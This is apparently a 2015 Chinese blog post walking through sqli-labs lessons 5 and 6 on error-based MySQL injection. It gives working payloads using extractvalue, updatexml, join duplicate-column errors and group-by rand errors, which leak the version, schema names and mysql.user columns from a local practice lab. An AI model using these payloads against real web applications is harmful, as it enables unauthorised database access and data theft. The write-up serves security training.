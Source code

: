 ```yaml
---
id: 606
layout: post
title: 'sqli lab 2 - 基于报错注入'
date: 2015-12-04 18:55:00
author: virusdefender
tags: 
---
```


昨晚就看了一部分了，然后顺手将 payload 放在 sqlchop 中测试了一下，发现了一个惊天秘密，非常明显的 sql 注入语句也认为是正常的，后来发现是不同平台编译的时候有中间文件没有全部清除，导致后续自动机出错。

上一篇文章都是有错误和数据回显的，利用相对容易，这一次的是没有数据回显，只有错误回显的，我们要使用报错注入了。

首先还是确定注入点类型，`check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`，确定还是字符型的。然后发现非报错的时候，如果 id 存在就只显示 you are in,否则什么都不显示了。

报错注入的几种方法：

 1. extractvalue，MySQL 解析 xml 的一个函数，用法是`ExtractValue(xml_frag, xpath_expr)`。报错的时候是可以爆出第二个参数的内容的。比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, version()) --+`就可以看到` XPATH syntax error: '.27-0ubuntu0.15.04.1'`。然后我们可以在第二个函数的位置放置 payloads。要注意的是：
    - 一定要报错，如果第二个参数是数字之类的可能并不会报错，这个时候可以 concat 一个特殊字符，比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, (select count(*) from security.users)) --+`不报错，而`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", (select count(*) from security.users))) --+`才报错了。

    - 部分情况下可能会存在数据截断的问题
        - 最开始那个 payload，实际的 version()是`5.6.27-0ubuntu0.15.04.1'`，而显示的时候前面丢了一些，这个时候前面拼接一个特殊字符一般可以解决问题，payload 修改为`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", version())) --+`。

        - 要显示的数据过长也会导致后面截断，这个好像暂时没什么好方法。`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", version(), database(), (select count(*) from security.users))) --+`就无法显示 `count(*)` 的结果。

 2. updatexml，也是解析 xml 的一个函数，用法是`UpdateXML(xml_target, xpath_expr, new_xml)`。第二个参数是可以爆出内容的。比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and updatexml(1, version(), 1) --+`，同样存在数据截断的问题，也可以通过 concat 字符解决，`http://172.16.61.136/sqli-labs/Less-5?id=1' and updatexml(1, concat("/", version()), 1) --+`。

 3. join 报错注入

    1. 比如`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b) c --+`，就会报错` Duplicate column name 'Host'`，得到第一个字段 Host。

    2. 然后继续使用 using，比如`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b using(Host)) c --+`就能得到第二个表名。

    3. 依次类推，using 里面是之前表的名字，逗号分隔，`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b using(Host, User)) c --+`。

 4. group by 报错。group by 大致就是先筛出数据，然后按照 group by 的字段逐个的查找，如果 key 存在，就讲数据插入临时表，如果 key 不存在，就创建 key，插入数据。如果我们使用随机化 key，可能会造成 group by 时候的错误。payload 可以是`http://172.16.61.136/sqli-labs/Less-5?id=1' and (select 1 from (select count(*), concat(version(), floor(rand(0)*2))x from information_schema.tables group by x)a) --+`。然后我们又可以愉快的爆数据库了，`http://172.16.61.136/sqli-labs/Less-5?id=1' and (select 1 from (select count(*), concat((select schema_name from information_schema.schemata limit 1 offset {offset}), floor(rand(0)*2))x from information_schema.tables group by x)a) --+`

Lesson 6 和上面的一样，不过单引号换成了双引号。